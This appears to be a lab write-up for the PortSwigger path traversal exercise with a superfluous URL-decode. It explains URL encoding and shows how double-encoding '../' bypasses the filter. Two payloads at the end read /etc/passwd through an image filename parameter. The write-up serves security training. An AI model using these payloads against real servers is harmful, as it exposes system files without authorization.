


# File path traversal, traversal sequences stripped with superfluous URL-decode

**Lab Url**: [https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)



## Goal

This lab demonstrates a path traversal vulnerability. The application blocks input containing path traversal sequences but performs URL decoding on the input before using it. The goal is to retrieve the contents of `/etc/passwd`.

## Information

**URL encoding** is a method to encode data in a Uniform Resource Identifier (URI) using US-ASCII characters. It ensures that special characters, reserved symbols, and non-ASCII characters in a URL are correctly interpreted by web browsers and servers. URL encoding replaces unsafe characters with a "%" followed by their hexadecimal ASCII value, preventing parsing conflicts and ensuring data integrity. This is essential for handling spaces (`%20`), query parameters (`&` and `=`), and characters with special meanings in URLs.

You can find more information [here](https://en.wikipedia.org/wiki/Percent-encoding).

## Conclusion

Solutions from previous labs won't work here because, as stated in the lab description, the application first strips path traversal sequences and then decodes the input. Simply URL encoding the payload is also ineffective, as one level of URL decoding is usually done by the server upon receiving the request. Therefore, encoding `../` as `%2e%2e%2f` is insufficient. The server decodes the URL and passes `../` to the application, which filters it out.

To bypass this, we can URL-encode the encoded string again.

`../ --> ..%2F --> ..%252F`

OR

`../../../ --> %2e%2e%2f%2e%2e%2f%2e%2e%2f -> %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66`

## Payload

```bash
/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
```

```bash
/image?filename=..%252f..%252f..%252fetc/passwd
```




